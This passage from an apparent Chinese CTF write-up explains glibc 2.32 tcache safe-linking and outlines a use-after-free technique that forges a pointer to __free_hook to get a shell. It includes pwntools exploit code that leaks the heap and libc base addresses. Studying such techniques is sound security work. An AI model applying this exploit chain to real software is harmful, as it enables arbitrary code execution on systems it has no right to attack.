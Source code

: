 ​ 与libc2.31做对比的话，libc2.31是`tcache-&gt;entries[tc_idx] = e-&gt;next;`

​ 而libc2.32是`tcache-&gt;entries[tc_idx] = REVEAL_PTR (e-&gt;next);`

​ 多了一个宏定义REVEAL_PTR，我们展开后是`#define REVEAL_PTR(ptr)  PROTECT_PTR (&amp;ptr, ptr)`

​ 本质还是调用了PROTECT_PTR这个宏，我们观察参数，这个宏是让ptr的地址右移后和ptr做一次异或，即可恢复出e-&gt;next

​ 我们继续向后运行

​ 执行那个宏之前tcache_perthread_struct中的链表的值是如图所示的值

[![](https://p2.ssl.qhimg.com/t019d5db58633d61594.png)](https://p2.ssl.qhimg.com/t019d5db58633d61594.png)

​ 执行后发生变化如图所示

[![](https://p2.ssl.qhimg.com/t016bfe88a7a81a4975.png)](https://p2.ssl.qhimg.com/t016bfe88a7a81a4975.png)

​ 完整的构成了safe-linking机制。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%89%8B%E6%B3%95"></a>利用手法

​ 在UAF的场景下，我们可以直接用show即可泄露出e-&gt;next值，因为最初tcache链表是为空的，也就是说safe-linking机制只相当于用堆地址右移了12位，通过左移即可恢复出堆地址，从而泄露出堆的基址，泄露出堆地址以后就可以来伪造tcache的next位了，我们可以在free态的chunk中修改next为`(&amp;next)&gt;&gt;12 &amp; __free_hook`（因为我们泄露出堆基址所以可以轻松的获取到&amp;next的值），这样调用完tcache**get之后就可以把\**_free_hook链入到可供我们申请的链表当中，即可覆写__free_hook来getshell。

### <a class="reference-link" name="exp"></a>exp

​ 泄露堆基址

```
message = "======================== LEAK HEAP ADDRESS ======================"
success(message)
add(0, 0x90, 'aaaa')
free(0)
show(0)
p.recvuntil("?\n")
heap = u64(p.recv(5)[-5:].ljust(8, b'\x00'))
heap = heap &lt;&lt; 12
info("HEAP BASE ----&gt; " + hex(heap))
```

​ 泄露libc基址

```
message = "======================== LEAK LIBC ADDRESS ======================"
success(message)
for i in range(7):
    add(i, 0x80, 'dawn it')
add(7, 0x80, 'a')
add(8, 0x10, 'protect')
for i in range(7):
    free(i)
free(7)
edit(7, 'a')
show(7)
libc_base = u64(p.recvuntil(
    '\x7f')[-6:].ljust(8, b'\x00')) - 193 - 0x10 - libc.sym['__malloc_hook']
info("LIBC ----&gt; " + hex(libc_base))
edit(7, '\x00')
```
